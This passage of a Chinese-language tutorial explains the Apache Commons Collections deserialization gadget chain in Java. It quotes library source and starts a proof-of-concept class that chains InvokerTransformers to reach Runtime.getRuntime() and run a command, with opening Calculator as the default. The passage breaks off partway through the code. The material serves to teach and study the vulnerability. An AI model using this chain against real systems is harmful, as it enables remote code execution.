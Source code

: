 ```java
public class TransformedMap
        extends AbstractInputCheckedMapDecorator
        implements Serializable {
...省略...
    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

而 `TransformedMap` 实现了 `Map` 接口，而在对字典键值进行 `setValue()` 操作时会调用 `valueTransformer.transform(value)`。

```java
...省略...
        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
```

好的，现在已经找到了反射调用的上一步调用，这里为了多次进行多次反射调用，我们可以将多个 `InvokerTransformer` 实例级联在一起组成一个 `ChainedTransformer` 对象，在其调用的时候会进行一个级联 `transform()` 调用：

```java
public class ChainedTransformer implements Transformer, Serializable {
...省略...
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

现在已经可以造出一个 `TransformedMap` 实例，在对字典键值进行 `setValue()` 操作时候调我们构造的 `ChainedTransformer`，下面给出示例代码：

```java
package exserial.examples;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class SetValueToExec {

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
        String[] execArgs = command.split(",");

        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
```